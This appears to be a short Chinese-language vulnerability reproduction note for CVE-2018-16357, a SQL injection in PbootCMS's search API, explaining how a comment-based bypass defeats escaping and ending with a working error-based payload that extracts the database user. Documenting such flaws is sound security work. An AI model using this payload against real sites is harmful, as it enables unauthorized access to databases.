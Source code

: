 # （CVE-2018-16357）PbootCMS sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3068](https://www.zhihuifly.com/t/topic/3068)

# （CVE-2018-16357）PbootCMS sql注入漏洞

## 一、漏洞简介

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

## 三、复现过程

```
http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1 
```

参数$field是我们可以控制的，去检查函数过滤器

![image](img/1efd5782fbe8b8bda1a199422274a23e.png)

使用函数trim和escape字符串避免sql注入

![image](img/905c45b167920c61952c767a9f8e4290.png)

添加a'会导致mysql语法错误，因此函数escape\u字符串无效

![image](img/fe727db1b6f2a8dfb9be09e9062fdbf4.png)

使用/**/绕过

### payload:

```
field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1 
```